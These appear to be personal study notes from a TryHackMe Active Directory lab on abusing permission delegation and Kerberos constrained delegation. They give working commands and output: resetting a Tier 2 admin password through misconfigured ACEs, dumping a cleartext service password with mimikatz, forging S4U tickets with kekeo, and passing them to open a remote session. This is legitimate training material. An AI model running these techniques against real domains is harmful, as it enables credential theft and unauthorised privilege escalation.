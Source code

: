 ```sh
resolvectl dns exploitad 10.200.60.101 #interface and DNS IP
```
## Exploiting Permission Delegation

### Permission Delegation
ACL-based attacks
Access Control Entities (ACEs)
Discretionary Access Control Lists (DACLs)

E.g. if IT Support has ForceChangePassword ACE over Domain Users, they can escalate privs by resetting privileged account passes

### Exploiting ACEs
https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces

Notable ACEs

| Name                | Ability                                                                                                                                   |
| ------------------- | ----------------------------------------------------------------------------------------------------------------------------------------- |
| ForceChangePassword | Set user's password without knowing current                                                                                               |
| AddMembers          | Add users (including current acct) groups or computers to target group                                                                    |
| GenericAll          | Complete control over object, including ability to change user password, register SPN or add an AD obj to the target group                |
| GenericWrite        | Update any non-protected params of target obj. Could for example update scriptPath param, causing a script to exec next time user logs on |
| WriteOwner          | Update owner of target obj. Could make ourselves owner, gaining addt'l perms over obj                                                     |
| WriteDACL           | Write new ACEs to target obj. Could write DACL that allows our account full control over target obj                                       |
| AllExtendedRights   | Any action associated with extended AD rights against target object. Includes ability to force change user's password                     |
To exploit ACE's, need to interact with AD to make the requests. AD-RSAT powershell or PowerSploit

```
scp za\\amy.king@thmwrk1.za.tryhackme.loc:C:/Users/amy.king/Desktop/20241230170411_BloodHound.zip ./ 

└─$ scp ./SharpHound.exe za\\amy.king@thmwrk1.za.tryhackme.loc:C:\\Users\\amy.king\\Desktop

```

Add "Tier 2 Admins" group as end node, then set starting node as "Domain Users" which our user is a member of

Misconfigured, Domain users have ForceChangePassword ability over IT support group

![[Pasted image 20241230121719.png]]

"GenericWrite"
"Bloodhound shows us a very interesting path. It seems that there was a slight bit of Permission Delegation in this domain. An administrator has misconfigured the Permission Delegation of the IT Support group by providing the Domain Users group with the AddMembers ACE. This means that any member of the Domain Users group (including our account) can add accounts to the IT Support Group. Furthermore, Bloodhound shows that the IT Support Group has the ForceChangePassword ACE for the Tier 2 Admins group members. This is not really a misconfiguration since Tier 2 admins are not that sensitive, but it provides a very potent attack path when combined with the initial misconfiguration."

```powershell
PS C:\>Add-ADGroupMember "IT Support" -Members "Your.AD.Account.Username"

PS C:\>get-adgroupmember -Identity "Tier 2 Admins" 

PS C:\Users\amy.king> $password = convertto-securestring "P@55w0rd" -asplaintext -force
PS C:\Users\amy.king> set-adaccountpassword -identity "t2_alan.riley" -reset -newpassword $password

PS C:\Users\amy.king> ssh localhost -l t2_alan.riley
```

## Exploiting Kerberos Delegation

This is what you think of when you think AD Delegation
Enable application to access resources hosted on another server.

#### Unconstrained
OG implementation of Kerberos Delegation, least secure method.
https://medium.com/@riccardo.ancarani94/exploiting-unconstrained-delegation-a81eabbd6976
Allows for delegation of all services
#### Constrained Delegation - 2003+
Restricts what services an account can be delegated to, limiting exposure if acct compromised

Ex.
HTTP - Web applications to allow pass-thru auth using AD creds
CIFS - Common Internet FS used for file sharing that allows delegation of users to shares
LDAP - Delegate to LDAP service for actions like resetting user pass
HOST - Delegation of account for all activities on the host
MSSQL - Allows delegation of user accounts to SQL service for pass-thru auth to db's

Exploitation example: Password or NTLM hash, generate TGT for this acct, use TGT to execute TGS req for any non-sensitive user to access service as that user.

#### Resource-Based Constrained Delegation - 2012+
RBCD now specifies objects can delegate to object, allows service owner to control who can access it. Ex. instead of specifying web service account can delegate to db service to access db, can now specify on the db service that the web svc account is allowed to delegate access to it.

Permission to config RBCD for a service - Ability to set msDS-AllowedToActOnBehalfOfOtherIdentity attrib for the AD object. Can populate the attrib with details of an AD account we have access to. Can now generate a TGT for account that we control, which will allow us to interact with this service
https://blog.netwrix.com/2022/09/29/resource-based-constrained-delegation-abuse/

#### Constrained Delegation Exploitation

Enum available delegations, use privileged user

```powershell
Import-Module C:\Tools\PowerView.ps1
Get-NetUser -TrustedToAuth

userprincipalname        : svcIIS@za.tryhackme.loc                                 

sds-allowedtodelegateto : {WSMAN/THMSERVER1.za.tryhackme.loc, WSMAN/THMSERVER1,
                           http/THMSERVER1.za.tryhackme.loc, http/THMSERVER1} 
```

Powershell remoting uses HTTP and WSMAN services as well. Ideally would like to impersonate Tier 1 Admin since this would provide us admin over THMSERVER1

```powershell
C:\> C:\Tools\mimikatz_trunk\x64\mimikatz.exe

# impersonate the SYSTEM user
# make sure to exit out of mimi after this or the tickets will be loaded in wrong context further on
mimikatz # token::elevate
# Interacts with registry hive to pull cleartext creds
mimikatz # lsadump::secrets                                                        

Secret  : _SC_thmwinauth / service 'thmwinauth' with username : svcIIS@za.tryhackme.loc  
cur/text: Password1@
```

```powershell
# using kekeo to generate the tickets
kekeo # tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:Password1@ 

# /user: user who has constrained delegation perms
# /domain: domain that we are attacking
# /password: password associated with vuln user

Realm        : za.tryhackme.loc (za) 
User         : svcIIS (svcIIS)
SName        : krbtgt/za.tryhackme.loc  [KRB_NT_SRV_INST (2)] 
Need PAC     : Yes
Auth mode    : ENCRYPTION KEY 23 (rc4_hmac_nt      ): 43460d636f269c709b20049cee36ae7a
[kdc] name: THMDC.za.tryhackme.loc (auto) 
[kdc] addr: 10.200.60.101 (auto)
  > Ticket in file 'TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi'

kekeo # tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:http/THMSERVER1.za.tryhackme.loc 

# Provide the TGT that we generated in previous step
# User to impersonate. Chosing an account that has access over servers, so chose a T1 account
# Services: Services we want to impersonate using delegation. Generate TGS for HTTP then rerun same command for WSMAN service, need both to create pssession
[...]
  > Ticket in file 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_svcIIS@ZA.TRYHACKME.LOC.kirbi' 
Service(s):
  [s4u2proxy] http/THMSERVER1.za.tryhackme.loc
  > Ticket in file 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi'
```

```powershell
mimikatz # privilege::debug 

mimikatz # kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi

* File: 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi': OK

mimikatz # kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi

* File: 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi': OK


PS C:\Tools\mimikatz_trunk\x64> new-pssession -computername thmserver1.za.tryhackme.loc        

  1 WinRM1   thmserver1.z... RemoteMachine   Opened    Microsoft.PowerShell

PS C:\Tools\mimikatz_trunk\x64> enter-pssession -computername thmserver1.za.tryhackme.loc      
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents>

```

## Exploiting Automated Relays